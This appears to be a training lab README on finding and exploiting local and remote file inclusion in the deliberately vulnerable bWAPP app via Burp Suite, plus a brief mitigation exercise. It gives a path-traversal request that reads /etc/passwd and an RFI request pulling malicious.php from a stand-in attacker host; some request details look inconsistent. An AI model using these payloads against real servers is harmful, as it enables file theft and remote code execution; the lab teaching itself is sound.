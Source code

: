 # Project 5: Exploring File Inclusion Vulnerabilities using bWAPP

## Introduction
File Inclusion is a web security vulnerability that allows attackers to include files on a server through a web application. This vulnerability can lead to unauthorized access to sensitive files, remote code execution, and even full system compromise. In this project, you will learn how to identify and exploit File Inclusion vulnerabilities using bWAPP (Bee-box Web Application) and Burp Suite.

## Pre-requisites
- Basic understanding of web application concepts and the HTTP protocol.
- Familiarity with server-side scripting languages such as PHP.
- A working installation of bWAPP and Burp Suite Community Edition.

## Lab Set-up

### Setting up bWAPP
1. **Install XAMPP**:
   - Download XAMPP from [Apache Friends](https://www.apachefriends.org/index.html) and install it.
   - Start the Apache and MySQL services from the XAMPP control panel.

2. **Install bWAPP**:
   - Download bWAPP from [bWAPP's official website](http://www.itsecgames.com/).
   - Extract the bWAPP files into the `htdocs` directory of your XAMPP installation (e.g., `C:\xampp\htdocs\bWAPP`).

3. **Configure bWAPP Database**:
   - Open a web browser and navigate to `http://localhost/bWAPP/install.php`.
   - Follow the instructions to set up the bWAPP database.
   - Log in to bWAPP with the default credentials:
     ```
     Username: bee
     Password: bug
     ```

### Setting up Burp Suite
1. **Download and Install Burp Suite**:
   - Download Burp Suite Community Edition from [PortSwigger](https://portswigger.net/burp/communitydownload) and install it.

2. **Configure Burp Suite with your Browser**:
   - Open Burp Suite and go to the "Proxy" tab.
   - Click on "Intercept is on" button to toggle interception off.
   - Go to the "Options" sub-tab and ensure the proxy listener is running on 127.0.0.1:8080.
   - Configure your web browser to use Burp Suite as a proxy (set the proxy server to 127.0.0.1 and port 8080).

## Exercises

### Exercise 1: Identifying Local File Inclusion (LFI) Vulnerabilities

1. **Set bWAPP Security Level to Low**:
   - Log in to bWAPP and go to the "Choose your bug" section.
   - Set the security level to "low" and select "LFI (Local File Inclusion)" from the list of bugs.
   - Click "Hack".

2. **Navigate to LFI Page**:
   - You will be presented with a page that includes a file based on user input.

3. **Intercept the Request with Burp Suite**:
   - Enter a file path (e.g., `/etc/passwd`) and click "View file".
   - Burp Suite will intercept the request. Forward the request to see the result.

4. **Modify the Request to Exploit LFI**:
   - Intercept the request again and modify the `page` parameter to include a sensitive file path (e.g., `../../../../etc/passwd`).
   - Forward the modified request and observe the response.

### Commands and Expected Output

1. **Initial Request Interception**:
   - Request intercepted by Burp Suite:
     ```
     GET /bWAPP/rlfi.php?page=about.php HTTP/1.1
     Host: localhost
     ```

2. **Modified Request with LFI Exploit**:
   - Modify the intercepted request:
     ```
     GET /bWAPP/rlfi.php?page=../../../../etc/passwd HTTP/1.1
     Host: localhost
     ```
   - Expected output: The response should display the contents of the `/etc/passwd` file.

### Exercise 2: Exploiting Remote File Inclusion (RFI) Vulnerabilities

1. **Set bWAPP Security Level to Low**:
   - In bWAPP, select "RFI (Remote File Inclusion)" from the list of bugs.
   - Click "Hack".

2. **Navigate to RFI Page**:
   - You will be presented with a page that includes a remote file based on user input.

3. **Intercept the Request with Burp Suite**:
   - Enter a URL of a remote file (e.g., `http://attacker.com/malicious.php`) and click "Include".
   - Burp Suite will intercept the request. Forward the request to see the result.

4. **Verify Remote File Inclusion**:
   - Check if the contents of the remote file (`malicious.php`) are executed or included in the response.

### Commands and Expected Output

1. **Initial Request Interception**:
   - Request intercepted by Burp Suite:
     ```
     GET /bWAPP/rrfi.php?language=../../../../etc/passwd HTTP/1.1
     Host: localhost
     ```

2. **Modified Request with RFI Exploit**:
   - Modify the intercepted request:
     ```
     GET /bWAPP/rrfi.php?language=http://attacker.com/malicious.php HTTP/1.1
     Host: localhost
     ```
   - Expected output: The response should execute or include the contents of the remote file.

### Exercise 3: Mitigating File Inclusion Vulnerabilities

1. **Implementing Input Validation and File Whitelisting**:
   - Modify the application code (if you have access) to validate user input and only allow inclusion of specific files.

2. **Testing the Mitigation**:
   - After applying the mitigation, repeat the File Inclusion attempts and ensure they are no longer successful.

## Conclusion
By completing these exercises, you will gain hands-on experience in identifying and exploiting File Inclusion vulnerabilities using bWAPP and Burp Suite. Additionally, you will understand the importance of implementing input validation and file whitelisting to prevent File Inclusion attacks.
